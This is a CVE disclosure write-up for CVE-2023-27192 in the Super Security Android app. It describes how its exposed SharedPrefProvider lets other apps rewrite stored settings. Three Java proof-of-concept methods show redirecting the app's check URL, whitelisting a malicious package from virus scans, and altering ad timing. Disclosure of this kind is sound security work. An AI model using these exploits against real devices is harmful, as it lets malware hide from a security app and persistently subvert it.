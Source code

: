 ## Escalation of Privileges exists in Super Secuirty（CVE-2023-27192）

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Super Security  (com.ludashi.security)

Version：2.3.7

Download link：https://apkpure.com/cn/super-security-virus-cleaner/com.ludashi.security

Description of the vulnerability for use in the CVE：An issue found in DUALSPACE Super Secuirty v.2.3.7 allows an attacker to gain privileges via the SharedPreference files.

Additional information：The app is a security application that provides several security-related functions. Upon opening, the app loads the SharedPreference files into memory and uses the data in some important functions. If a malicious app modifies important data in the SharedPreference files, the Super Security app will not behave properly when loading this data. This can cause many security hazards, such as controlling the server URL the victim app is going to access (by modifying the key_wifi_safe_net_check_url field), allowing malicious apps to add themselves to the virus check whitelist (by modifying the KEY_VIRUS_SCAN_WHITELIST field), ad blocking (by modifying the key_ad_new_user_avoid_time field), and more. Even worse, users cannot fix the security issue by rebooting victim devices, since the injected data is persistent in the SharedPreference files.



1.Controlling the server URL the victim app is going to access:

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",4);
    contentValues.put("key","key_wifi_safe_net_check_url");
    contentValues.put("value","www.xxx.com");
    contentResolver.update(uri, contentValues,null,null);
}
```

<img src="CVE detail.assets/image-20230403194034307.png" alt="image-20230403194034307" style="zoom: 50%;" />

2.Allowing malicious apps to add themselves to the virus scan whitelist：

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",4);
    contentValues.put("key","KEY_VIRUS_SCAN_WHITELIST");
    contentValues.put("value","xxx.packagename");
    contentResolver.update(uri, contentValues,null,null);
}
```

KEY_VIRUS_SCAN_WHITELIST field：

<img src="CVE detail.assets/image-20230404134921229.png" alt="image-20230403194034307" style="zoom: 50%;" />

3.ad blocking

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",2);
    contentValues.put("key","key_ad_new_user_avoid_time");
    contentValues.put("value","100000");
    contentResolver.update(uri, contentValues,null,null);
}
```

key_ad_new_user_avoid_time field：

<img src="CVE detail.assets/image-20230404135013298.png" alt="image-20230404135013298" style="zoom:50%;" />